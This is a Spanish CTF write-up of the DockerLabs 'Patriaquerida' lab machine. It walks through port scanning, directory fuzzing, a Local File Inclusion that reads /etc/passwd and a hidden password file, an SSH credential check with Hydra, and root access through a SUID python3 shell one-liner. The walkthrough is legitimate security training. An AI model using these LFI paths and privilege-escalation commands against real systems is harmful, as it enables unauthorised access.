


# Patriaquerida ​​

## 🖥️ Writeup - Patriaquerida

**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `LFI` `Gobuster` `Wfuzz` `Hydra` `Lateral Movement` `SUID` `Python`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip patriaquerida.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh patriaquerida.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 16:18 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e1:b8:ce:5c:65:5a:75:9e:ed:30:7a:2b:b2:25:47:6b (RSA)
|   256 a3:78:9f:44:57:0e:15:4f:15:93:59:d0:04:89:a9:f4 (ECDSA)
|_  256 5a:7a:89:3c:ed:da:4a:b4:a0:63:d3:ba:04:39:c3:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.94 seconds
```

Tenemos abiertos los puertos `22` y `80`.

Accedemos por `HTTP` y nos encontramos con una página por defecto de `Apache2`.

## GOBUSTER

Realizamos `fuzzing` de directorios para intentar localizar directorios o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:

```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,bak,sh,html,zip,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/index.php            (Status: 200) [Size: 110]
Progress: 457530 / 1543899 (29.63%)
```

Encontramos un archivo `index.php` y, al acceder, aparece el siguiente mensaje:

```
Bienvenido al servidor CTF Patriaquerida.¡No olvides revisar el archivo oculto en /var/www/html/.hidden_pass!
```

De este mensaje deducimos que podemos utilizar `LFI` (Local File Inclusion) para intentar leer el archivo oculto en `/var/www/html/`.

## LFI

Usamos wfuzz para encontrar un parámetro que nos permita incluir un archivo.

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/index.php?FUZZ=../../../../../etc/passwd --hc 404 --hl 0
```

Info:

```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/index.php?FUZZ=../../../../../etc/passwd
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================

000000099:   200        26 L     36 W       1367 Ch     "page"
```

Identificamos el parámetro `page`, por lo que podemos emplearlo para leer el archivo oculto mencionado antes.

```
http://172.17.0.2/index.php?page=/var/www/html/.hidden_pass
```



Obtenemos la hidden pass, pero asumiendo que se trata de una contraseña aún nos falta un usuario. Por ello aprovechamos el `LFI` para revisar el contenido de `/etc/passwd`.

```
http://172.17.0.2/index.php?page=/etc/passwd
```



Allí encontramos dos usuarios: `mario` y `pinguino`.

Comprobamos si la contraseña obtenida es válida para alguno de estos dos usuarios.

```bash
hydra -l pinguino -p balu ssh://172.17.0.2 -t 60
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-13 16:31:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: pinguino   password: balu
```

Confirmamos credenciales válidas para `pinguino` : `balu`. Accedemos por `SSH`.

## ESCALADA DE PRIVILEGIOS

Una vez dentro, encontramos en su directorio un archivo `.txt` que contiene la contraseña del usuario `mario`.

```
La contraseña de mario es: invitaacachopo
```

La utilizamos para pivotar a este usuario.

```bash
su mario
```

El cambio se realiza con éxito.

Ya como usuario `mario`, comprobamos permisos `sudo` y `SUID`.

```bash
find / -perm -4000 -type f 2>/dev/null
```

Info:

```
/usr/bin/umount
/usr/bin/man
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/python3.8
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Observamos que el binario `python3` tiene permisos `SUID`, lo que podemos aprovechar para escalar privilegios de la siguiente manera:

```bash
/usr/bin/python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Info:

```
# whoami
root
# 
```

Ya somos root!
